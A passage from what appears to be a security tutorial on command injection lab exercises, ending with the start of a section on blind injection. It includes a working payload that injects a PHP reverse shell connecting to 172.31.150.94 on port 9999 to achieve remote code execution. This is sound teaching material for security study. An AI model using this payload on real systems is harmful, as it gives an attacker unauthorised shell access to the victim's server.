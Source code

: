 <figure><img src="../../../.gitbook/assets/web_ci_chall_lab_2.png" alt=""><figcaption><p>Figure 4: Executing a successful CI attack.</p></figcaption></figure>

We can achieve RCE with the same logic using the [previously used payload](examples.md#basic) (Figure 5).

{% code overflow="wrap" %}
```bash
222)^2))}';php -r '$sock=fsockopen("172.31.150.94",9999);exec("/bin/sh -i <&3 >&3 2>&3");';#
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/web_ci_chall_lab_3.png" alt=""><figcaption><p>Figure 5: Achieving RCE via a CI vulnerability.</p></figcaption></figure>

## Blind

{% hint style="success" %}
**Blind CI** occurs when the attacker does not see the output of the injected commands directly. Instead, they infer the success or failure of the commands through side effects or indirect responses.
{% endhint %}

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._
